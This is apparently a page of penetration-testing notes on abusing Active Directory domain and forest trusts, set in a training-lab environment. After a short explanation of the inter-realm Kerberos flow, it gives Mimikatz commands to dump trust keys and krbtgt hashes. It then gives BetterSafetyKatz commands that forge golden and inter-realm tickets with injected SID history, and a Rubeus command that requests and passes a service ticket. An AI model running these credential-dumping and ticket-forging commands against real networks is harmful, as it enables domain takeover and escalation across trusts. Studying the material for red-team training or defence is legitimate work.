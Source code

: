 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\


We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key.

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options                            |                                                  |
| ---------------------------------- | ------------------------------------------------ |
| <pre><code>/domain:
</code></pre>  | FQDN of the current domain                       |
| <pre><code>/sid:
</code></pre>     | SID of the current domain                        |
| <pre><code>/sids
</code></pre>     | SID to be injected to the SID history            |
| <pre><code>/rc4:
</code></pre>     | RC4 of the trust key                             |
| <pre><code>/krbtgt:
</code></pre>  | krbtgt hash can be used instead of the Trust Key |
| <pre><code>/user:
</code></pre>    | User to impersonate                              |
| <pre><code>/service:
</code></pre> | Target service in the parent domain              |
| <pre><code>/target:
</code></pre>  | FQDN of the parent domain                        |
| <pre><code>/ticket
</code></pre>   | Path to save the ticket                          |

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
```
{% endcode %}
